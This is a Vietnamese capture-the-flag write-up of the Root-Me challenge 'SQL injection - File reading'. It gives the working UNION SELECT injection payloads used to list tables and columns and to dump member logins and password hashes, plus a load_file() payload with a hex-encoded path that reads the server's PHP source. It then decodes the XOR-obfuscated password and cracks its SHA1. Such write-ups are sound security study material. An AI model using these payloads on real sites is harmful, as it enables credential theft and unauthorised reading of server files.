# Challenge: SQL injection - File reading
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-file-reading

- Bài này ta thấy có 1 form đăng nhập, tuy nhiên trang members có thể dùng url để truy vấn được
<p align="center"></p>
<p align="center"></p>

- Thử kiểm tra lỗi ở url truy vấn của trang members bằng cách thêm kí tự ' --> ta thấy thật sự tồn tại lỗi ở đây.
<p align="center"></p>

- Tiếp tục khai thác như những bài trước chèn thêm `order by 10`
<p align="center"></p>
--> thử lần lượt ta tìm được giá trị của các cột hiển thị là 4

- thử thêm ` union select 1,2,3,4` để xem hình thức hiển thị của các cột
<p align="center"></p>

- Vì nó không hiển thị gì nên ta thử sửa trường `id = -1`
<p align="center"></p>

> ?action=members&id=-1 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = database()
<p align="center"></p>
--> ta được table: member

> ?action=members&id=-1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name = 'member'
<p align="center"></p>

- OK nó có thể giống như những bài trước, ta sẽ tiến hành mã hóa nó, chuyển `member` về hex thành `276d656d62657227`
> ?action=members&id=-1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name = 0x6d656d626572
<p align="center"></p>

`member_id,member_login,member_password,member_email`

- Lấy username password 
> ?action=members&id=-1 union select 1,group_concat(member_login),3,group_concat(member_password) from member
<p align="center"></p>

- Đến đây ta đã nhận được thông tin lưu ở password: `VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==`
- Thử mã hóa nó ở dạng base64 tuy nhiên thì ko được, do vậy có thể nó bị mã hóa,
Đề bài là file reading !!!
- Ta cần lấy ra file php, để biết nó mã hóa những gì 
> ?action=members&id=-1 union select 1,2,3,load_file('/challenge/web-serveur/ch31/index.php')
<p align="center"></p>

- Vì có lỗi nên ta sẽ chuyển chuỗi `/challenge/web-serveur/ch31/index.php` sang mã hex, `2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870`
> ?action=members&id=-1 union select 1,2,3,load_file(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870)
<p align="center"></p>
<p align="center"></p>

- Phân tích code ta có 
```
$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}
sha1($_POST['password']) = stringxor($key, base64_decode($data['member_password']))
```
- Chạy code, để nhận được `sha1(password) = 77be4fc97f77f5f48308942bb6e32aacabed9cef`
<p align="center"></p>

- Dùng công cụ https://md5decrypt.net/en/Sha1/#answer để tìm password
## Kết quả password là `superpassword`